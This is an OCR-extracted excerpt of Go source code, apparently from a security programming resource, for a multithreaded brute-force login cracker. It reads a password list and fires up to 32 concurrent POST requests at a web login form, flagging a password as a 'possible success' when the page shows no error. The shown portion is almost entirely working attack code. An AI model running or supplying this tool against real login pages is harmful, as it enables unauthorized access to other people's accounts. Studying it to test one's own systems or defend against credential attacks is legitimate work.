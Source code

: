 ```go
      log.Println("Error making request. ", err) 
   } 
   defer response.Body.Close() 

   body := make([]byte, 5000) // ~5k buffer for page contents 
   response.Body.Read(body) 
   if bytes.Contains(body, []byte("ERROR")) { 
      log.Println("Error found on website.") 
   } 
   log.Printf("%s", body) 

   if bytes.Contains(body,[]byte("ERROR")) || response.StatusCode != 200 { 
      // Error on page or in response code 
   } else { 
      log.Println("Possible success with password: ", password) 
      // os.Exit(0) // Exit on success? 
   } 

   doneChannel <- true 
} 

func main() { 
   pwList, postUrl, username, userField, passField := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwList) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 32 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testLoginForm( 
         postUrl, 
         userField, 
         passField, 
         username, 
         password, 
         doneChannel, 
      ) 

      // If max threads reached, wait for one to finish before  
      //continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
```
